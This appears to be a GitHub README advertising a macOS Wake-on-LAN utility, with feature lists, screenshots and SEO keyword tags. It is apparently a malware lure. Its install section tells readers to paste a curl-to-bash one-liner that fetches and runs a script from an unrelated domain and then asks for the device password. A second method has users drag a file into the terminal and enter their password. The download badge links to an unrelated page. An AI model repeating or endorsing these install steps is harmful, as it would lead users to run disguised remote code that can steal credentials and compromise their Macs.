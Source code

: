 <p align="center">
  <img src="https://i.ibb.co/v6mtnVtr/1662984950-256avy.png" width="350" alt="Remote Wake Up macOS Banner" />
</p>

<h1 align="center">Remote Wake Up for macOS</h1>

<p align="center">
  🖥️ Power on, shut down, and ping any computer on your network. Remote Wake Up makes Wake-on-LAN simple, direct, and offline-capable from your Mac.  
  <br><br>
  ✅ Works with Intel & Apple Silicon  
  ✅ Compatible with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/280" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20REMOTE%20WAKE%20UP%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Remote Wake Up for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/rfRLL1GP/1662984960-1286x0w-1.webp" alt="Remote Wake Up Interface Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Remote Wake Up for macOS?

**Remote Wake Up** is a small but powerful utility that lets you manage computers on your local network using the Wake-on-LAN protocol. Whether you’re trying to wake a sleeping PC, shut down a server, or ping a device, this app puts full control at your fingertips.

No need for complicated terminal commands or scripts — everything is cleanly handled in a native macOS UI, perfect for network admins, IT professionals, or advanced home users.

---

## ✅ Why Choose Remote Wake Up?

- 🌐 **Send Wake-on-LAN (WOL) Packets**  
- 💤 **Power On or Shutdown Remote Devices**  
- 🛰️ **Ping, Status Check, and Auto-Scan**  
- 📋 **MAC Address & Hostname Management**  
- 🧠 **Offline Mode – No Background Sync**  
- 🍎 **Native Apple Silicon Support**  
- 🔒 **Local-Only Operation – No Tracking**  
- 🖥️ **Minimalist Interface, Max Control**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/8nmHbGrq/1662984961-1286x0w-2.webp" alt="Network Host Management View" />
  <br><br>
  <img src="https://i.ibb.co/R4SgYKK2/1662984962-1286x0w.webp" alt="Wake-on-LAN Settings Interface" />
</p>

---

## 🚀 Key Features

- Wake, ping, or shut down remote machines  
- Supports Wake-on-LAN and Sleep commands  
- Auto-discover devices in network  
- MAC/IP pairing memory  
- Manual host input and tagging  
- Apple Silicon optimized  
- Full local control — no cloud required  
- Quick toggle UI from menubar

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow Remote Wake Up manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Network-Wake+Shutdown+Ping-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Support-Apple+Silicon+Native-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Remote Wake Up – Network Control

Thanks for using **Remote Wake Up for macOS**.  
Simple, fast, and private network power control.

---

## 🧭 Usage Context

Designed for home labs, IT environments, and power users.  
No cloud sync, no telemetry — all commands stay local.

---

## 🔍 Tags

```text
remote wake up mac download, wake on lan utility macos, wol mac app apple silicon, power on remote computer from mac, ping shutdown pc over network mac, macbook m1 wake server remotely, offline lan controller mac tool, host manager wake app mac, no background sync wake on lan tool, remote wol software for mac os x, networked pc power controller mac, instant wol magic packet app mac, device wake app for macbook, wake-on-lan native mac m2 m3, admin tools remote wake up mac
